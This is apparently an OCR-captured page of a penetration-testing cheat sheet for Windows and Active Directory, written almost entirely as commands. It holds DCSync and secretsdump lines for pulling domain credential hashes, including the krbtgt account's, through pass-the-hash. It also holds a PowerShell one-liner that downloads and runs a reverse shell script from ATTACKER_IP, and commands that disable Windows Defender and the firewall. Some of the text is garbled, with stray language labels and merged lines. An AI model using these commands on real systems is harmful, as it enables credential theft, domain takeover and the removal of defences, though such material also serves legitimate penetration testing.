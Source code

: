 ```
```


**DC Sync**
-----------

```


lsadump::dcsync /domain:domain /all /csv
lsadump::dcsync /user:krbtgt

https:
powershell.exe -c "Import-Module .\Invoke-DCSync.ps1; Invoke-DCSync -PWDumpFormat"

python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
python secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit LOCALCode language: PHP (php)
```


**Powershell Constrained Language Bypass**
------------------------------------------

```

powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')PSByPassCLM
```


**Windows Defender**
--------------------

```

sc config WinDefend start= disabled
sc stop WinDefend

Set-MpPreference -DisableRealtimeMonitoring $true

"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -AllCode language: PHP (php)
```


**Firewall**
------------

```

Netsh Advfirewall show allprofilesNetSh Advfirewall set allprofiles state offCode language: JavaScript (javascript)
```


**Ip Whitelisting**
-------------------

